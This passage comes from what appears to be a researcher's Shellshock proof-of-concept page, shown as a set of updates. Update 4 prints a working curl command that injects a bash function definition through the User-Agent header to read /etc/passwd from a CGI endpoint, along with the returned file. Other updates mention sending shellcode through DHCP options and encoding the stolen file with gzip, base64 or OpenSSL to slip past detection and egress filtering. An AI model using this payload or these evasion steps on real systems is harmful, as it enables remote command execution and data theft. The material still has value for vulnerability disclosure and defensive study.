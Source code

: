 <a id="u3"></a>
## Update 3 - DHCP lease tampering via DHCP options

Talked with @loganattwood OOB about timing attacks against DHCP lease expiry &
passing shellcode via DHCP options. Nice privilege escalation scenario.

<a id="u4"></a>
## Update 4 - Clean up of original PoC(no more writing to disk)

Caught a quick, but very important , update via Twitter. Prepending an `echo` 
fixes the header issue.

```shell
# curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://192.168.0.1/poc.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

<a id="u5"></a>
## Update 5 - Encrypted egress to bypass DLP

Dave Aitel was complaining about all of the so-called 'echo checks' that people
were using to detect Shellshock, so I suggested one of the above methods. He
said that was better, but would be caught by egress filtering. I decided that
there must be a cute way to get around it. First I gzipped and piped /etc/passwd
to base64, but it was suggested that Using OpenSSL would probably be better
depending on level of inspection at the egress point.

Code on Github
